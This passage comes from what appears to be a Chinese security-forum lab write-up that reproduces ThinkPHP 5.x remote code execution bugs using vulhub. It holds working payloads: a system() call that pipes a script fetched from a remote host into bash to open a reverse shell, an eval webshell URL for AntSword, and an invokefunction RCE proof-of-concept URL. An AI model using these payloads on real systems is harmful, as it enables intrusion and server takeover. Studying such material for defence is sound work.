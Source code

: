 ![image-20210516211311881](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d8de0a1a8ce7ec2bbcfbbb49f7dbd324ede6fc2c.png)

进行执行

```php
1=system(&quot;curl 192.168.175.130:9999/shell.sh | bash&quot;);
```

![image-20210516211508627](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-39b24397a98f9a1d85d1a0a169d44421f0cabe91.png)

nc拿到shell

![image-20210516211559258](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c484a7fb813ada040800c2c4dbfad27277673f65.png)

蚁剑连接的话

```php
http://192.168.175.209:8080/index.php?s=a/b/c/${@print(e val($_POST[1]))}
```

![image-20210516211831135](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6be65a575516713912109ff7312626549459637c.png)

![image-20210516211848214](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-035e841c4b844a7d9f3a320923c07879710b72d2.png)

### Thinkphp5-5.0.22/5.1.29远程代码执行漏洞

#### 漏洞原理

ThinkPHP是在中国使用极为广泛的PHP开发框架。在其版本5中，由于框架错误地处理了控制器名称，因此如果网站未启用强制路由(默认设置)，则该框架可以执行任何方法，从而导致RCE漏洞。

#### 影响版本：

```php
5.0.22/5.1.29
```

#### 漏洞复现

```php
cd vulhub-master/thinkphp/5-rcesudo docker-compose up -d
```

![image-20210516212604870](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-151525fc80cb9f5cd5b4ee4a7464be6342c5cf4c.png)

成功访问

![image-20210516212632637](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-07d738072c869f42e62a801339f4d73835dabfd9.png)

#### 漏洞验证

```php
/index.php?s=/Index/\think\app/invokefunction&amp;function=call_user_func_array&amp;vars[0]=phpinfo&amp;vars[1][]=-1%20and%20it%27ll%20execute%20the%20phpinfo
```

![image-20210516212649252](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-66069127c011e760f98e6c0bf0e084434c12f1a9.png)
